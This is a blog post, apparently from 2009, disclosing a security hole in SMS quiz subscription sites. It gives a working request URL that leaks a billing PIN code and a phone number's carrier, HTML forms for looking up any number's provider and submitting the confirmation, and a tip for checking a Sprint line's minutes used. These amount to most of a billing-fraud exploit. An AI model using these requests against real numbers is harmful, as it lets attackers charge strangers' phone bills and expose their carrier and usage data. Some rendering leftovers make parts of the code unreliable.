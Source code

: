 ```yaml
---
title: "Security hole: charge money to any mobile number"
tags: 
  - security
  - zero-day
old-link: https://privacylog.blogspot.com/2009/01/security-hole-in-sms-spam-websites.html
updates:
  - date: 2010-01-02
    changes: Posted full exploit
---
```


### Web 2.0 Programming Model and Security Concerns

The Web 2.0 paradigm introduces a new web programming model. However, with new programming models comes the risk of developer incompetence.

#### Old Model:

```mermaid
graph TD;
    Client-->Server;
    Server-->Database;
```

#### New Model:

```mermaid
graph TD;
    Client-->Server;
    Client-->Database;
```

The problem with the new model is that the database is now another source of entry. It's crucial to remember that if a client is making a request to your server, you need to scrutinize that request every time.

### SMS Spam Websites

Examples of SMS spam websites include:

- [triviaspace.net/US1](https://www.triviaspace.net/US1/)
- [iqlovetestv0.iqlovetest.com](https://iqlovetestv0.iqlovetest.com/)
- [thankyoupath.com/landing_pages/quiz_dating](https://www.thankyoupath.com/landing_pages/quiz_dating/)

![Screenshot](/assets/images/2009-01-17-security-hole-in-sms-spam-websites.png)

### Exploit Example

After completing a quiz, your browser may be asked to load a script like this:

```
https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php?CarrierCompliant=no&Score=17&IP=1.2.3.4&Host=&Name=&Starsign=&Source=41152&Number=2152223456&Service=WEEKLY_TRIVIA_44999_999&ShortCode=44999&Message=Haha!&MessageVer=Haha&MessageATT=Haha
```

This script loads something like:

```
javascript
Copy code
var Provider = 'tmobile';
var Code = 1777;
var LoversName = 'CHARLIE';
var IQ = '85';
var Origin = '';
var Meaning = '';
var Tester1 = '987';
var Tester2 = '7555';
var Tester3 = '987';
```

You can use this Web API to learn the service provider for any phone number in the US (works for most numbers):

```html
<form action="https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php" method="get" target="_new">
    Phone number: <input name="Number"><br>
    (do not use dashes here)<br>
    <input type="submit" value="Get provider">
</form>
```

After you get that page, read the `var Provider='...'` part. If it's a Sprint number, you can call 888-211-4727 to see how many minutes were used by that phone number in the past month.

If you used a URL like the one above for your first request, you would also get a `Code=###` part. That code could be input into a page like this:

```html
<form action="https://www.triviaspace.net/US1/confirm.php?a=41152" method="post" name="form1" onsubmit="Validate(txtPin)">
    <input id="Service" name="Service" value="WEEKLY_TRIVIA_44999_999" type="hidden">
    <input id="Shortcode" name="Shortcode" value="44999" type="hidden">
    <input id="Provider" name="Provider" value="" type="hidden">
    <input id="RealPin" name="RealPin" value="" type="hidden">
    <input id="Portal" name="Portal" value="TheIqQuiz.com" type="hidden">
    <input id="LoversName" name="LoversName" value="" type="hidden">
    <input id="IQ" name="IQ" value="" type="hidden">
    <input id="Origin" name="Origin" value="" type="hidden">
    <input id="Meaning" name="Meaning" value="" type="hidden">
    <input id="fPin" maxlength="5" name="txtPin" type="hidden">
</form>
```

Now... ~~I'm not giving you the full details to run this request~~. **See update below**. But, if you followed through, the result is a simple Web API that allows you to charge money on the phone bill of arbitrary mobile phone users. That's what I call a failure in security.